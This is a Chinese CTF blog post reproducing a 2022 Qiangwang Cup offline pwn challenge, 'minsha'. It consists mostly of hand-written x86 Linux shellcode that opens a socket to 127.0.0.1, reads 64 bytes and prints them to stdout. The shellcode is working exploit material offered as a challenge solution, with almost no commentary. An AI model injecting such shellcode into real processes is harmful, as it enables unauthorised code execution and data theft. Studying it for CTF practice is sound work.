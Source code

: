 ```yaml
---
title: 2022 强网杯 线下赛 复现
date: 2023-09-26 07:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=72/
pin: false
---
```




## minsha

https://cloud.tencent.com/developer/article/2105254

https://blog.csdn.net/m0_37947204/article/details/80489431

```assembly
global _start
_start:

        ;// socket(AF_INET,SOCK_STREAM,IPPROTO_IP)
        xor ebx,ebx
        mul ebx
        inc ebx ; //socket
        push edx
        push ebx
        push 0x2
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;// connet(socket,(struct sockaddr *)&serv_addr,sizeof(struct sockaddr_in))
        push 0x100007f
        push 0xcdea0002
        mov ecx,esp
        push 0x10
        push ecx
        push eax
        mov bl,3
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;//read(socket,esp,64)
        pop ebx
        mov ecx, esp
        mov dl, 64
        mov al,3
        int 0x80

        ;//write(1, esp, 64)
        xor ebx, ebx
        mov bl, 1
        mov al, 4
        int 0x80

        xor ebx,ebx
        mov al,1
        int 0x80
```



